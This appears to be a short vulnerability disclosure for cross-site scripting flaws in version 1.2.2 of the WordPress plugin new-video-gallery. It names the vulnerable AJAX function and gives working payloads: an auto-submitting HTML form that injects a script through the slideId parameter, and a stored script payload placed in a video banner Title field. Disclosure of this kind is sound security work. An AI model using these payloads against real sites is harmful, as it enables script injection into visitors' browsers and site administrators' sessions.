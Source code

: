 * App: new-video-gallery
* Verion: 1.2.2
* Issue: xss

# Detail

[new-video-gallery](https://wordpress.org/plugins/new-video-gallery/) is a Wordpress plugin for create YouTube Gallery & Create Vimeo Gallery into your WordPress site. In the version 1.2.2 there are some XSS issues.

At frist, in the file new-video-gallery/new-video-gallery.php:300 line, the function `_ajax_video_gallery()` can be controlled.


And then the function `_vg_ajax_callback_function($id)` will be sinked.
![1](1.png)
- The PoC:
```php
<html>
<body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![2](2.png)

Then Press `Add Video Gallery` and into this page then press`ADD VIDEO BANNER`.You can upload an image and write the payload on hte `Title` label.
![3](3.png)
Then press Publish And You will get a `Shortcode`, press the `Shortcode` in your page.
![4](4.png)
![5](5.png)
The xss will execute in the front page.
![6](6.png)

* Poc
  ``` html
  “><script>alert(2)</script><
  ```
